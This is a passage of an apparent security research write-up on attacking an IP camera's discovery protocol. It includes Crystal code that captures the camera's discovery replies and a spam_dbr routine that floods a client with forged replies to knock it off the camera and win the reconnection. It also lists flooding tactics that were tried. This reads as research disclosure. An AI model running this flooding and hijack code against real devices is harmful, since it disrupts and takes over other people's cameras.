   until got_dbr
    potential_dbr = @db_client_sock.receive
    LOG.info("Got a potential DBR from a client")
    
    if potential_dbr[0][0..3] == DBR_HEADER
      got_dbr = true 
      @camera = potential_dbr[1]
      LOG.info "GOT DBR TARGET #{@camera}"
    end
  end
  if potential_dbr
    @dbr = Client.parse_dbr potential_dbr
    @dbr
  else
    nil
  end
end
</code></pre>

## Spam DBR

Now, we need to both, disrupt connection of the camera, as well as flood our client with DBR. This step took me a while to figure out, and I ran through a whole load of things to try and disrupt the camera. Before I discovered this DoS, I would literally just simulate a disconnect on the camera by unplugging it from the network.

Some things I tried,

* UDP Flooding
* Connection spamming
  * Opening up connections with the camera and disconnecting constantly. 
  * EX: DBP -> DBR -> BCP -> BPS -> BPA -> RESTART 
  * Hangs camera a bit, as it waits for and tracks ping-pong through the protocol.
* Broadcast flooding
  * Flooding the broadcast with DBP/BCP to tie up camera resources.

In the end after quite a lot of testing I used this tactic to get it to disrupt, flooding the client with DBR, which luckily disconnects the client from the camera, and when it reconnects, our DBR will always be first to the connection. 

<pre><code class="crystal">
# We just need to get our DBR in before the camera.
def spam_dbr(dbr)
  @spam_dbr = true
  LOG.info "Spamming DBR!"
  spam_fiber = spawn do
    while @spam_dbr
      begin
        send_dbr(dbr)
        sleep 0.000001
      rescue e
        LOG.info "SPAM DBR EXCEPTION #{e}"
      end
    end
    LOG.info "Spamming DBR Finished!"
  end
end
</code></pre>
